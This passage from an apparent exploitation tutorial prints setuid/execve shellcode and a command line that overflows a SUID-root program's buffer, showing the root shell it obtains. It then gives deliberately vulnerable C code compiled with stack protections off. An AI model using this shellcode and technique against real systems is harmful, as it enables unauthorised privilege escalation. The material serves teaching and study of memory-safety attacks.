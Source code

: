 The bytes of the (fixed) shellcode are as follows:

```
\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05
```

`bo_vuln1` is still set with root as owner and with the SUID bit. Let's run the shellcode (note that the NOP sled is decreased since the shellcode is longer):

```bash
$ env - PWD=$PWD SHLVL=0 $PWD/bo_vuln1 `python -c 'print 12 * "\x90" + "\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05" + 17 * "a" + 8 * "b" + "\x38\xec\xff\xff\xff\x7f"'`
sh-4.4# echo $EUID
0
sh-4.4# whoami
root
sh-4.4#
```

> Filesystems mounted with the `nosuid` mount option in (see the file `/proc/mounts`) will ignore the SUID or SGID bit, making this type of privilege escalation impossible.

### Other places to put shellcode

Continuing with old school exploitation, we'll look at a few variations of shellcode injection.

#### Shellcode in an environment variable

Consider the program below:

```c
/*
 * bo_vuln2.c
 * gcc bo_vuln2.c -zexecstack -fno-stack-protector -g -o bo_vuln2
 */

#include <string.h>

void cp(char *s)
{
    char input[8];
    strcpy(input, s);
}

int main(int argc, char *argv[])
{
    if (argc > 1)
        cp(argv[1]);
    return 0;
}
```
